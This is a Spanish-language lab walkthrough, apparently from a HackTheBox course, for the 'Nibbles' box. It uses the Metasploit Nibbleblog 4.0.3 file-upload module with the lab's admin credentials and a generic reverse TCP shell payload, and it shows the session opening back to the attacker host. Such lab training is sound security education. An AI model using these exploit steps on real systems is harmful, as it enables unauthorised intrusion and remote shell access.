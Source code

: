 Como se discutió anteriormente, también hay un módulo de `Metasploit` que funciona para este cuadro. Es considerablemente más sencillo, pero vale la pena practicar ambos métodos para familiarizarse con tantas herramientas y técnicas como sea posible. Inicie `Metsaploit` desde su cuadro de ataque escribiendo `msfconsole`. Una vez cargado, podemos buscar el exploit.

~~~
msf6 > search nibbleblog

Matching Modules
================

   #  Name                                       Disclosure Date  Rank       Check  Description

-  ----                                       ---------------  ----       -----  -----------

   0  exploit/multi/http/nibbleblog_file_upload  2015-09-01       excellent  Yes    Nibbleblog File Upload Vulnerability


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/nibbleblog_file_upload
~~~

Luego podemos escribir `use 0` para cargar el exploit seleccionado. Configure la opción `rhosts` como la dirección IP de destino y lhosts como la dirección IP de su adaptador `tun0` (el que viene con la conexión VPN a HackTheBox).

~~~
msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

msf6 exploit(multi/http/nibbleblog_file_upload) > set rhosts 10.129.42.190
rhosts => 10.129.42.190
msf6 exploit(multi/http/nibbleblog_file_upload) > set lhost 10.10.14.2 
lhost => 10.10.14.2
~~~

Escriba `show options` para ver qué otras opciones deben configurarse.

~~~
msf6 exploit(multi/http/nibbleblog_file_upload) > show options 

Module options (exploit/multi/http/nibbleblog_file_upload):

  Name       Current Setting  Required  Description
----       ---------------  --------  -----------
  PASSWORD                    yes       The password to authenticate with
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS     10.129.42.190    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
  RPORT      80               yes       The target port (TCP)
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  TARGETURI  /                yes       The base path to the web application
  USERNAME                    yes       The username to authenticate with
  VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

  Name   Current Setting  Required  Description
----   ---------------  --------  -----------
  LHOST  10.10.14.2       yes       The listen address (an interface may be specified)
  LPORT  4444             yes       The listen port


Exploit target:

  Id  Name
--  ----
  0   Nibbleblog 4.0.3
~~~
Necesitamos configurar el nombre de usuario y la contraseña del administrador admin:nibbles y TARGETURI en nibbleblog.

~~~
msf6 exploit(multi/http/nibbleblog_file_upload) > set username admin
username => admin
msf6 exploit(multi/http/nibbleblog_file_upload) > set password nibbles
password => nibbles
msf6 exploit(multi/http/nibbleblog_file_upload) > set targeturi nibbleblog
targeturi => nibbleblog
~~~

También necesitamos cambiar el tipo de carga útil. Para nuestros propósitos, utilicemos `generic/shell_reverse_tcp`. Ponemos estas opciones y luego escribimos `exploit` y recibimos un shell inverso.

~~~
msf6 exploit(multi/http/nibbleblog_file_upload) > set payload generic/shell_reverse_tcp
payload => generic/shell_reverse_tcp
msf6 exploit(multi/http/nibbleblog_file_upload) > show options 

Module options (exploit/multi/http/nibbleblog_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   nibbles          yes       The password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.129.42.190  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  nibbleblog       yes       The base path to the web application
   USERNAME   admin            yes       The username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.2      yes       The listen address (an interface may be specified)
   LPORT  4444            yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Nibbleblog 4.0.3


msf6 exploit(multi/http/nibbleblog_file_upload) > exploit

[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] Command shell session 4 opened (10.10.14.2:4444 -> 10.129.42.190:53642) at 2021-04-21 16:32:37 +0000
[+] Deleted image.php

id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
~~~

Desde aquí, podemos seguir el mismo camino de escalada de privilegios.

### PROXIMOS PASOS

Asegúrate de seguir y probar todos los pasos por ti mismo. Pruebe otras herramientas y métodos para lograr el mismo resultado. Tome notas detalladas sobre su propia ruta de explotación, o incluso si sigue los mismos pasos que se describen en esta sección. Es la buena práctica y la memoria muscular lo que te beneficiará significativamente a lo largo de tu carrera. Si tiene un blog, haga un tutorial en este cuadro y envíelo a la plataforma. Si no tienes uno, inicia uno. Simplemente no use la versión 4.0.3 de `Nibbleblog`.

A menudo hay muchas maneras de lograr la misma tarea. Dado que este es una maquina más antigua, es probable que existan otros métodos de escalada de privilegios, como un núcleo desactualizado o alguna explotación de servicio. Ponte a prueba para enumerar la caja y buscar otros defectos. ¿Hay alguna otra forma de abusar de la aplicación web `Nibbleblog` para obtener un shell inverso? Estudie este tutorial detenidamente y asegúrese de comprender cada paso antes de continuar.
